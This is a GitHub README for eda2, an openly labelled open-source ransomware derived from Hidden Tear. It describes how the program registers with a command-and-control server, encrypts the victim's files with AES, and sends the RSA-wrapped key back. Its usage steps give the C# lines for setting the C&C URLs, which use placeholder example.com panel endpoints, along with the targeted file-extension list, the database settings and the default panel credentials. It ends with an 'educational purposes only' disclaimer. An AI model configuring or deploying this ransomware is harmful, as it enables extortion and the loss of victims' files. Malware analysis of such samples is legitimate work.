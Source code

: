 # eda2, Stolich, Win32.Stolich
Open Source Ransomware

Uploaded to GitHub for those who want to analyze the code.


### References

- http://www.securitynewspaper.com/2016/01/25/eda2-open-source-ransomware-code-used-real-life-attacks/



                  _       ___  
                 | |     |__ \ 
          ___  __| | __ _   ) |
         / _ \/ _` |/ _` | / / 
        |  __/ (_| | (_| |/ /_ 
         \___|\__,_|\__,_|____|

It's a ransomware-like file crypter sample which can be modified for specific purposes. It's more extended version of hidden tear.

**Features**

* Uses both RSA and AES algorithms.
* Coordinates with a Command&Control server.
* Uses CSPRNG
* Uses phplibsec
* Encrypted files can be decrypted in decryption program with encryption key.
* Changes desktop background.

**Demonstration Video**

https://www.youtube.com/watch?v=PD16u1Rz2QI

**Workflow**

* Program sends a POST request to the C&C server with pcname and username variables.
* C&C server creates RSA public/private key pair. Sends public key to the program, saves private key inside the Mysql database
* Program creates a random key for AES algorithm
* Program encrypts files with AES algorithm
* Program encrypts AES key with RSA public key and sends it to the C&C server with POST request
* C&C server saves encrypted AES key inside the Mysql Database

**Usage**

* You need to have a web server which runs Php and Mysql. Change this line with your URL

  ```
  string generatorUrl = "http://www.example.com/panel/createkeys.php"; 
  string keySaveUrl = "http://www.example.com/panel/savekey.php"; 
  ```
  
* It uses 2048 as RSA key size. You can change it

  `const int keySize = 2048;`



* Target file extensions can be change. Default list:

  ```
  var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png",     ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
  ```

* Edit your database settings in db.php
* Default login credentials for web panel: username:test password:test
* You can use Hidden Tear's decryption program to decrypt files.

## Legal Warning

While this may be helpful for some, there are significant risks. eda2 may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running eda2, even though you are innocent.
